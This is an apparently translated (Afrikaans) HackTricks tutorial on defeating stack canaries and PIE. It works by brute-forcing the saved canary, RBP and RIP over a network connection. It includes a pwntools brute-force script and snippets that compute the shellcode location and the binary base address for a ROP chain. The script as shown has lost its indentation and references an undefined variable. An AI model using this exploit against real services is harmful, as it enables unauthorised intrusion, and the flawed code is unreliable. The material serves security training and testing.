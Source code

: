 # BF Adres in die Stapel

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**As jy 'n binêre teëkom wat deur 'n canary en PIE (Position Independent Executable) beskerm word, moet jy waarskynlik 'n manier vind om dit te omseil.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
Let daarop dat **`checksec`** dalk nie sal vind dat 'n binêre deur 'n canary beskerm word nie as dit staties gecompileer is en nie in staat is om die funksie te identifiseer nie.\
Jy kan egter dit handmatig opgemerk as jy vind dat 'n waarde in die stapel gestoor word aan die begin van 'n funksie-aanroep en hierdie waarde voor die uitgang nagegaan word.
{% endhint %}

## Brute-Force Adres

Om die **PIE te omseil** moet jy **'n adres lek**. En as die binêre nie enige adresse lek nie, is die beste manier om dit te doen om die **RBP en RIP wat in die stapel gestoor is** in die kwesbare funksie te **brute-forseer**.\
Byvoorbeeld, as 'n binêre beskerm word met beide 'n **canary** en **PIE**, kan jy begin om die canary te brute-forseer, dan sal die **volgende** 8 Bytes (x64) die gestoor **RBP** wees en die **volgende** 8 Bytes sal die gestoor **RIP** wees.

{% hint style="success" %}
Dit word veronderstel dat die terugadres binne die stapel aan die hoof binêre kode behoort, wat, as die kwesbaarheid in die binêre kode geleë is, gewoonlik die geval sal wees.
{% endhint %}

Om die RBP en die RIP van die binêre te brute-forseer, kan jy agterkom dat 'n geldige geraamde byte korrek is as die program iets uitset of dit net nie crash nie. Die **dieselfde funksie** soos die wat voorsien is vir die brute-forseering van die canary kan gebruik word om die RBP en die RIP te brute-forseer:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
Die laaste ding wat jy nodig het om die PIE te oorwin, is om **nuttige adresse uit die gelekte** adresse te bereken: die **RBP** en die **RIP**.

Van die **RBP** kan jy bereken **waar jy jou shell in die stapel skryf**. Dit kan baie nuttig wees om te weet waar jy die string _"/bin/sh\x00"_ binne die stapel gaan skryf. Om die afstand tussen die gelekte RBP en jou shellcode te bereken, kan jy net 'n **breakpoint plaas na die lekkasie van die RBP** en kyk **waar jou shellcode geleë is**, dan kan jy die afstand tussen die shellcode en die RBP bereken:
```python
INI_SHELLCODE = RBP - 1152
```
Van die **RIP** kan jy die **basisadres van die PIE-binary** bereken wat jy gaan benodig om 'n **geldige ROP-ketting** te skep.\
Om die basisadres te bereken, doen net `objdump -d vunbinary` en kyk na die ontsyferde jongste adresse:

![](<../../../.gitbook/assets/image (479).png>)

In daardie voorbeeld kan jy sien dat slegs **1 Byte en 'n half benodig word** om al die kode te lokaliseer, dan sal die basisadres in hierdie situasie die **gelekte RIP wees maar eindig op "000"**. Byvoorbeeld, as jy `0x562002970ecf` gelek het, is die basisadres `0x562002970000`
```python
elf.address = RIP - (RIP & 0xfff)
```
## Verbeterings

Volgens [**sommige waarnemings van hierdie pos**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking), is dit moontlik dat wanneer RBP en RIP waardes gelek word, die bediener nie sal crash met sommige waardes wat nie die korrekte is nie en die BF skrip sal dink hy het die goeie gekry. Dit is omdat dit moontlik is dat **sommige adresse eenvoudig nie dit sal breek nie, selfs al is daar nie presies die korrekte nie**.

Volgens daardie blogpos word dit aanbeveel om 'n kort vertraging tussen versoeke aan die bediener in te voer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
